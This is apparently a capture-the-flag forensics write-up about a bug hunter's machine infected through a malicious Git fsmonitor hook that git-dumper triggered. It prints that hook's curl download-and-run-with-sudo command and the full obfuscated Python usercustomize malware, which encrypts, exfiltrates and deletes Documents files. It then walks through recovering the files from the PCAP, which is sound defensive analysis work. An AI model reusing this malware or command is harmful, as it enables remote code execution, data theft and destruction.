Challenge Description
Your friend, a bug hunter, has asked for your help. After completing a bug bounty program, he realized that he lost his report for another program. He is asking you to recover it and understand what happened on his machine.
He finds the recent bug bounty program suspicious, as it seemed very empty and illogical.
VM credentials:
Username: john / root
Root password: root
You are provided with a PCAP file as well as a VirtualBox VM.
Objectives
- Recover the lost bug bounty report
- Analyze the VM for any suspicious activity
- Identify potential vulnerabilities and exploit them
Investigation
We start on the bug hunter VM and immediately notice a Project directory.

This screenshot shows a note.txt file, a bash script, an exploit directory, and a suspicious bug-git directory.

note.txt contains:
+ Server: Werkzeug/3.1.6 Python/3.13.5
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: OPTIONS, HEAD, GET
+ Server leaks inodes via ETags, header found with file /.git/index, inode: 100702487332, size: 2310, mtime: 0x797904668
+ Uncommon header 'content-disposition' found, with contents: inline; filename=index
+ OSVDB-3092: /.git/index: Git Index file may contain directory listing information.
+ 6544 items checked: 0 error(s) and 5 item(s) reported on remote host
+ End Time: 2026-03-03 19:25:05 (GMT0) (14 seconds)
This strongly suggests that a .git directory was exposed and likely downloaded into bug-git.
Inside /bin, we can see git-dumper, which confirms that the bug-git directory most likely came from the web server.

Inside bug-git, we find a .git directory with the following structure, including a config file that deserves immediate attention.

The config file contains a payload inside the fsmonitor parameter. That parameter allows bash command execution after git checkout, git status, and similar Git commands. Those commands are used by git-dumper, which runs git checkout by default.

curl -k -s -o /tmp/bbf496b0cb0e34a44b72f4ee97c0db02 https://192.168.1.64:8443/payload && chmod +x /tmp/bbf496b0cb0e34a44b72f4ee97c0db02 && sudo /tmp/bbf496b0cb0e34a44b72f4ee97c0db02 && echo 'e1RoMVNfSXNfWTB1Ul9mN3JzdF9QQHJ0fQ==' > /dev/null
This reveals the first part of the flag, encoded in Base64.

Let's continue the investigation.
There is also an error related to Python.

So we test Python directly.

We can see an error involving usercustomize, so we inspect it.

import os
import ssl
import json
import socket
import struct
import hashlib
import urllib.request
import base64
_0xfb8c4d = __import__(base64.b64decode(b"cGxhdGZvcm0=").decode())
_0x3e9a7f = __import__(base64.b64decode(b"Z2V0cGFzcw==").decode())
_0x4a2b8f = base64.b64decode(b"MTkyLjE2OC4xLjY0").decode()
_0x7d3c9a = ssl.create_default_context()
_0x7d3c9a.check_hostname = False
_0x7d3c9a.verify_mode = ssl.CERT_NONE
def _0x9f4e2a(v, n):
return ((v << n) | (v >> (32 - n))) & 0xFFFFFFFF
def _0x6b1d7c(a, b, c, d):
a = (a + b) & 0xFFFFFFFF; d ^= a; d = _0x9f4e2a(d, 16)
c = (c + d) & 0xFFFFFFFF; b ^= c; b = _0x9f4e2a(b, 12)
a = (a + b) & 0xFFFFFFFF; d ^= a; d = _0x9f4e2a(d, 8)
c = (c + d) & 0xFFFFFFFF; b ^= c; b = _0x9f4e2a(b, 7)
return a, b, c, d
def _0x3c8f5b(key: bytes, counter: int, nonce: bytes) -> bytes:
_0x1a4e9f = base64.b64decode(b"ZXhwYW5kIDMyLWJ5dGUgaw==")
state = list(struct.unpack(base64.b64decode(b"PDE2SQ==").decode(),
_0x1a4e9f +
key[:32] +
struct.pack(base64.b64decode(b"PEk=").decode(), counter & 0xFFFFFFFF) +
nonce[:12]
))
working = state[:]
for _ in range(10):
working[0], working[4], working[8], working[12] = _0x6b1d7c(working[0], working[4], working[8], working[12])
working[1], working[5], working[9], working[13] = _0x6b1d7c(working[1], working[5], working[9], working[13])
working[2], working[6], working[10], working[14] = _0x6b1d7c(working[2], working[6], working[10], working[14])
working[3], working[7], working[11], working[15] = _0x6b1d7c(working[3], working[7], working[11], working[15])
working[0], working[5], working[10], working[15] = _0x6b1d7c(working[0], working[5], working[10], working[15])
working[1], working[6], working[11], working[12] = _0x6b1d7c(working[1], working[6], working[11], working[12])
working[2], working[7], working[8], working[13] = _0x6b1d7c(working[2], working[7], working[8], working[13])
working[3], working[4], working[9], working[14] = _0x6b1d7c(working[3], working[4], working[9], working[14])
output = [(working[i] + state[i]) & 0xFFFFFFFF for i in range(16)]
return struct.pack(base64.b64decode(b"PDE2SQ==").decode(), *output)
def _0x8e2a6d(plaintext: bytes, key: bytes, nonce: bytes, counter: int = 0) -> bytes:
ciphertext = bytearray()
for i in range(0, len(plaintext), 64):
block = _0x3c8f5b(key, counter + i // 64, nonce)
chunk = plaintext[i:i + 64]
ciphertext += bytes(a ^ b for a, b in zip(chunk, block))
return bytes(ciphertext)
_0x2f7b4a = getattr(_0xfb8c4d, base64.b64decode(b"bm9kZQ==").decode())()
_0x9c3e1d = getattr(_0xfb8c4d, base64.b64decode(b"cmVsZWFzZQ==").decode())()
_0x5a6f8b = getattr(_0x3e9a7f, base64.b64decode(b"Z2V0dXNlcg==").decode())()
try:
with open(base64.b64decode(b"L2V0Yy9tYWNoaW5lLWlk").decode(), base64.b64decode(b"cg==").decode()) as f:
_0x4d8c2e = f.read().strip()
except FileNotFoundError:
_0x4d8c2e = base64.b64decode(b"dW5rbm93bg==").decode()
def _0x7f9d3a():
_0x1f45e0 = {
base64.b64decode(b"aG9zdG5hbWU=").decode(): _0x2f7b4a,
base64.b64decode(b"a2VybmVs").decode(): _0x9c3e1d,
base64.b64decode(b"dXNlcm5hbWU=").decode(): _0x5a6f8b,
base64.b64decode(b"bWFjaGluZV9pZA==").decode(): _0x4d8c2e,
}
_0x6e4a2f = base64.b64decode(b"aHR0cHM6Ly8=").decode() + _0x4a2b8f + base64.b64decode(b"Ojg0NDM=").decode()
body = json.dumps(_0x1f45e0).encode()
req = urllib.request.Request(
_0x6e4a2f + base64.b64decode(b"L2pzb24=").decode(),
data=body,
headers={base64.b64decode(b"Q29udGVudC1UeXBl").decode(): base64.b64decode(b"YXBwbGljYXRpb24vanNvbg==").decode()},
method=base64.b64decode(b"UE9TVA==").decode(),
)
with urllib.request.urlopen(req, context=_0x7d3c9a) as resp:
resp.read()
def _0x1b5e9c() -> tuple[bytes, bytes]:
seed = f"{_0x2f7b4a}:{_0x9c3e1d}:{_0x4d8c2e}:{_0x5a6f8b}"
digest = hashlib.sha512(seed.encode()).digest()
key = digest[:32]
nonce = digest[32:44]
return key, nonce
def _0x3a7f2d(filename: str, data: bytes):
_0x9b4e6c = 9000
name_bytes = filename.encode(base64.b64decode(b"dXRmLTg=").decode())
with socket.create_connection((_0x4a2b8f, _0x9b4e6c)) as sock:
sock.sendall(struct.pack(base64.b64decode(b"Pkk=").decode(), len(name_bytes)))
sock.sendall(name_bytes)
sock.sendall(struct.pack(base64.b64decode(b"Pkk=").decode(), len(data)))
sock.sendall(data)
sock.recv(3)
_0x8c1d4f = os.path.join(os.path.expanduser(base64.b64decode(b"fg==").decode()), base64.b64decode(b"RG9jdW1lbnRz").decode())
key, nonce = _0x1b5e9c()
_0x7f9d3a()
for fname in os.listdir(_0x8c1d4f):
fpath = os.path.join(_0x8c1d4f, fname)
if not os.path.isfile(fpath):
continue
with open(fpath, base64.b64decode(b"cmI=").decode()) as f:
plaintext = f.read()
ciphertext = _0x8e2a6d(plaintext, key, nonce)
_0x3a7f2d(fname + base64.b64decode(b"LmhlbGxjYXQ=").decode(), ciphertext)
os.remove(fpath)
We can see that the script obfuscates function names, variable names, and strings with Base64.
After analyzing it, we can identify a ChaCha20 implementation because it contains:
- 32-bit left rotations
- quarter rounds
- 64-byte block generation
- a final XOR step
The script targets the user's Documents directory and exfiltrates the data to an external server at 192.168.1.64 over ports 9000 and 8443. The encrypted data is sent over port 9000.
We collect the following values because they are used to encrypt the file:




We run tshark on the PCAP to extract the encrypted file:
tshark -r capture.pcap -Y "tcp.dstport == 9000 && ip.dst == 192.168.1.64 && tcp.payload" -T fields -e tcp.payload | tr -d '\n' | xxd -r -p > exfiltrated_raw.bin
Here is the Python script used to decrypt the content:
import hashlib
import struct
from Crypto.Cipher import ChaCha20
hostname = "midnight"
kernel = "6.17.0-14-generic"
machine_id = "6ea3ad95b0cb495d86291db1c798247f"
username = "john"
seed = f"{hostname}:{kernel}:{machine_id}:{username}"
digest = hashlib.sha512(seed.encode()).digest()
key = digest[:32]
nonce = digest[32:44]
print("Key :", key.hex())
print("Nonce :", nonce.hex())
with open("exfiltrated_raw.bin", "rb") as f:
name_len = struct.unpack(">I", f.read(4))[0]
filename = f.read(name_len).decode("utf-8")
data_len = struct.unpack(">I", f.read(4))[0]
ciphertext = f.read(data_len)
cipher = ChaCha20.new(key=key, nonce=nonce)
plaintext = cipher.decrypt(ciphertext)
out_name = filename.removesuffix(".hellcat") if filename.endswith(".hellcat") else "decrypted.bin"
with open(out_name, "wb") as f:
f.write(plaintext)
print(out_name)
This gives us a PDF file.

By reading that report, we find the final part of the flag:

Final part: MCTF{0x_F1n@l_P4rt$}
Complete flag: MCTF{Th1S_Is_Y0uR_f7rst_P@rt0x_F1n@l_P4rt$}